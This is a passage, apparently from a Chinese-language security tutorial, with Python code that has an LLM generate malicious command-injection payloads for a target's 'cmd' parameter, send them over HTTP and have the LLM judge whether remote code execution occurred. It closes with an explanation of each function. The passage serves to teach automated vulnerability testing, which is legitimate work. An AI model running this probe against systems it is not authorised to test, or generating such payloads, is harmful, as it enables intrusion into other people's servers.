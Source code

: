 ```
    payload = response.choices[0].text.strip()
    return payload
# 发起攻击并测试RCE漏洞
def test_rce_vulnerability(target_url, api_description):
    payload = generate_payload(api_description)
    params = {"cmd": payload}
    try:
        response = requests.get(target_url, params=params)
        if response.status_code == 200:
            print(f"请求成功，正在分析响应：{response.text}")
            # 使用LLM分析响应
            analyze_response_for_rce(response.text)
        else:
            print("未发现RCE漏洞")
    except requests.exceptions.RequestException as e:
        print(f"请求失败：{e}")
# 使用LLM分析响应并判断是否存在RCE
def analyze_response_for_rce(response_text):
    prompt = f"""
    下面是目标系统的响应内容，请分析是否存在RCE漏洞：
    {response_text}
    如果存在RCE漏洞，请说明漏洞原因，并提供修复建议。
    """
    
    response = openai.Completion.create(
        model="code-davinci-002",  # 使用Codex模型进行分析
        prompt=prompt,
        max_tokens=200,
        temperature=0.5
    )
    analysis_result = response.choices[0].text.strip()
    print("LLM分析结果：")
    print(analysis_result)
# 运行测试
test_rce_vulnerability(target_url, api_description)
```  
  
  
#### 代码阐述  
1. **generate_payload()**  
：通过LLM根据接口描述生成恶意的cmd  
参数值（例如，执行ls  
命令）。LLM会根据目标接口的特点（如命令执行接口）生成特定的攻击payload。  
  
1. **test_rce_vulnerability()**  
：通过HTTP GET请求发送包含恶意payload的cmd  
参数，并获取目标系统的响应。  
  
1. **analyze_response_for_rce()**  
：使用LLM对系统的响应内容进行分析，判断是否存在远程代码执行（RCE）漏洞。如果响应中包含命令输出或异常信息（如ls  
命令的输出），则说明可能存在RCE漏洞。  
  